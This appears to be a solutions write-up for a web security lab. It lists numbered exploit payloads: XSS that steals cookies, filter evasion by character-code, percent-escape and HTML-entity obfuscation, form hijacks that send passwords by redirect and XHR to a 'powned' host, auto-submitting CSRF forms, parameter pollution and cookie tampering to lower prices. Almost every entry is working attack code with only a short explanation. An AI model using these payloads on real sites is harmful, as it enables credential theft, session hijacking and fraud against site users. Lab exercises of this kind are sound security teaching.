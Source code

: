 ### 1. XSS Type 1 - Hello world!

Vulnerability: 
The browser will execute any javascript in input tag.

Exploit:

    <script>
    call_upon_injection();
    </script>

How: 
The parser in the browser will executes javascript when it sees any `<script>` tag.

### 2. XSS Type 1 - Filtering: The Return

Exploit:

    <script>
    document.getElementById('stolen_cookie').value = document.cookie;
    </script>

How:
The default script in modern browsers is javascript so only `<script>` is enough.
Single quotes work in the same way double quotes work.

### 3. XSS Type 1 - Filtering: The Last Stand

Exploit:

    <script>
    document.getElementById(String.fromCharCode(115, 116, 111, 108, 101, 110, 095, 099, 111, 111, 107, 105, 101)).value = document.cookie;
    </script>

How:
Generate string using ascii code to bypass the single quote and double quote filtering.

### 4. XSS Type 1 - Filtering: Another one bites the dust

Exploit:

    <script>
    eval(unescape(/%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%42%79%49%64%28%27%73%74%6F%6C%65%6E%5F%63%6F%6F%6B%69%65%27%29%2E%76%61%6C%75%65%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%3B/).slice(1,-1));
    </script>

###5.  XSS Type 1 - Filtering: Revolution

Exploit:

    <img src=wth onError=eval(unescape(/%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%42%79%49%64%28%27%73%74%6F%6C%65%6E%5F%63%6F%6F%6B%69%65%27%29%2E%76%61%6C%75%65%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%3B/).slice(1,-1))>

### 6. XSS Type 1 - Filtering: The End

Exploit:

    <img src=wth onError=&#x20&#x64&#x6F&#x63&#x75&#x6D&#x65&#x6E&#x74&#x2E&#x67&#x65&#x74&#x45&#x6C&#x65&#x6D&#x65&#x6E&#x74&#x42&#x79&#x49&#x64&#x28&#x27&#x73&#x74&#x6F&#x6C&#x65&#x6E&#x5F&#x63&#x6F&#x6F&#x6B&#x69&#x65&#x27&#x29&#x2E&#x76&#x61&#x6C&#x75&#x65&#x20&#x3D&#x20&#x64&#x6F&#x63&#x75&#x6D&#x65&#x6E&#x74&#x2E&#x63&#x6F&#x6F&#x6B&#x69&#x65&#x3B>

### 7. XSS Type 1 - XSS headers

Exploit:

    $opts = array(
        'http'=>array(
        'method'=>"GET",
        'header'=>"Accept-language: en\r\n"
        )
    );
    echo "<script type='text/javascript'>call_upon_injection();</script>";

### 8. XSS Type 2 - Hello World

Vulnerability:
The browser will execute javascript when the code is loaded from database.

Exploit:

    <script>
    call_upon_injection();
    </script>

How:
The parser in the browser will executes javascript when it sees any `<script>` tag.

### 9. XSS Type 2 - The iframe tag

Exploit:

    <iframe src=# onmouseover="call_upon_injection()"></iframe>


### 10. XSS Payloads - Steal the password (Redirect)

Vulnerability:
The form's action can be changed when browser is parsing javascript in message.

Exploit:
    
    <script>
    document.forms("login").action = "http://powned/exercises/xss/giveMeThePassword.php";
    </script>

How:
The browser will execute javascript to change the action of the form so that the form will be submitted to http://powned/exercises/xss/giveMeThePassword.php.

### 11. XSS Payloads - Steal the password (XHR)

Exploit:

    <script>
    document.forms["login"].onsubmit = function() {myFunction()};
    function myFunction() {
        var http = new XMLHttpRequest();
        var url = "http://powned/exercises/xss/giveMeThePassword.php";
        var params = "password="+document.forms["login"].password.value;
        http.open("GET", url+"?"+params, false);
        http.send(null);
    }
    </script>

### 12. XSS Payloads - Camouflage

Exploit:

    <script>
    document.getElementById('subtitle').innerHTML = "We are pathetic and you know that!";
    document.getElementById('tr2').style.display = 'none';
    </script>

### 13. CSRF - Zero-sum game

Exploit:

    http://webseclab-vm/exercises/csrf/csrf_basic.php?from=1&to=3

### 14. CSRF - My POST email

Exploit:

    <form id="myForm" action="http://webseclab-vm/exercises/csrf/csrf_email_post.php" method="POST">
    <input type="hidden" name="newEmail" value="pwn5@pwnd.com"/>
    <input type="hidden" name="uid" value="1"/>
    </form>
    <script>
    document.getElementById("myForm").submit();
    window.location.replace("http://www.stanford.edu");
    </script>

### 15. Session - Has my time come?

Exploit:

    <script>
    var d = new Date();
    var token = String(d.getTime()).slice(0,10);
    document.write(token);

    var html = '<form id="myForm" action="http://webseclab-vm/exercises/csrf/csrf_token.php" method="GET"><input type="hidden" name="token" value=' + token + '/><input type="hidden" name="from" value="1"/><input type="hidden" name="to" value="4"/><input value="Free money!" type="submit"></form>';
    document.write(html);
    </script>

### 16. Session - HTTP parameter pollution

Exploit:

    Bob&from=Alice

### 17. Session - Protect the shop

Exploit:

    setcookie("user", $user, time()+3600, null, null, null, true);
    setcookie("price", $price, time()+3600, null, null, null, true);

### 18. Session - Buy it cheaper #2

Exploit:

    document.cookie="price=299;";

### 19. Session - Buy it cheaper #3

Exploit:

    var cont = 42 * 299;
    document.cookie="price=299;";
    document.cookie="control="+cont+";";

### 20. Session - Buy it cheaper #5

Exploit:

    var cont = 24 * 6 * 299;
    document.cookie="price=299;";
    document.cookie="control="+cont+";";

### 21. Session - Buy it cheaper #6

Exploit:

    var cont = "3956e4b5c8dc7982f985c5f495c7c49fbe95dcc7";
    document.cookie="price=299;";
    document.cookie="control="+cont+";";
